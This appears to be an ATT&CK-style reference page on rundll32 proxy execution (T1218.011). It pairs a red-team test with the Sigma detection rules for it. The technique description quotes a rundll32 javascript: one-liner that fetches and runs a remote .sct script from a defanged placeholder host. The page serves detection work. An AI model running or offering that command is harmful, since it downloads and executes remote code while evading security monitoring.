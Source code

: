 
[back](../index.md)

Find sigma rule :heavy_check_mark: 

# Attack: Rundll32 

Adversaries may abuse rundll32.exe to proxy execution of malicious code. Using rundll32.exe, vice executing directly (i.e. [Shared Modules](https://attack.mitre.org/techniques/T1129)), may avoid triggering security tools that may not monitor execution of the rundll32.exe process because of allowlists or false positives from normal operations. Rundll32.exe is commonly associated with executing DLL payloads.

Rundll32.exe can also be used to execute [Control Panel](https://attack.mitre.org/techniques/T1218/002) Item files (.cpl) through the undocumented shell32.dll functions <code>Control_RunDLL</code> and <code>Control_RunDLLAsUser</code>. Double-clicking a .cpl file also causes rundll32.exe to execute. (Citation: Trend Micro CPL)

Rundll32 can also be used to execute scripts such as JavaScript. This can be done using a syntax similar to this: <code>rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:https[:]//www[.]example[.]com/malicious.sct")"</code>  This behavior has been seen used by malware such as Poweliks. (Citation: This is Security Command Line Confusion)

# MITRE
## Tactic
  - defense-evasion


## technique
  - T1218.011


# Test : Rundll32 execute JavaScript Remote Payload With GetObject
## OS
  - windows


## Description:
Test execution of a remote script using rundll32.exe. Upon execution notepad.exe will be opened.


## Executor
command_prompt

# Sigma Rule
 - win_pc_susp_rundll32_script_run.yml (id: 73fcad2e-ff14-4c38-b11d-4172c8ac86c7)

 - win_run_executable_invalid_extension.yml (id: c3a99af4-35a9-4668-879e-c09aeb4f2bdf)

 - sysmon_rundll32_net_connections.yml (id: cdc8da7d-c303-42f8-b08c-b4ab47230263)

 - sysmon_win_binary_github_com.yml (id: e0f8ab85-0ac9-423b-a73a-81b3c7b1aa97)



[back](../index.md)
